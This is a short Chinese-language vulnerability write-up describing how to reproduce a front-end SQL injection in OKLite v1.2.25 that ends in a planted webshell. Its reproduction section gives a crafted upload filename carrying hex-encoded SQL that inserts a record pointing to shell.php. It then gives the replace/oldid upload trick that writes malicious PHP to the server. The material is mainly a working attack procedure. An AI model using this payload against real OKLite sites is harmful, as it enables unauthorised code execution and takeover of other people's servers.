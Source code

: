 ```yaml
---
title: "OKLite v1.2.25 SQL注入导致getshell(前台)"
id: zhfly3055
---
```


# OKLite v1.2.25 SQL注入导致getshell(前台)

## 一、漏洞简介

这个漏洞在2017年在PHPOK当中就被畅师傅就被发现了。PHPOK系统被修复了，但是在OKLite当中还存在。

## 二、漏洞影响

OKLite v1.2.25 版本

## 三、复现过程

地址：http://www.0-sec.org/index.php?id=message

在线留言处上传一个图片并抓包，把文件名修改为：

```
1','pf3qm0js3gb2s5f33r7lf14vl3','30'),('1',0x7265732f3230313931302f30342f,'shell.jpg','jpg',0x7265732f3230313931302f30352f7368656c6c2e706870,'1570161575','abc 
```

![image](../img/e6fe55b0674306fd80c5addd150c1711.png)

上传成功之后会返回图片的id和保存的路径：

![image](../img/59da562690a651c534a6343544dcfda1.png)

再次上传一个图片，把地址中的save改成replace，添加一个参数名为`oldid`，值为图片的id + 1。

图片的内容改为恶意的php代码：

![image](../img/6d2640e5c0b685957d22c308062005b0.png)

上传完成之后可在`res\201910\05`目录下生成一个shell.php

![image](../img/a80daab1e0b3bbabd6b7605a063020c7.png)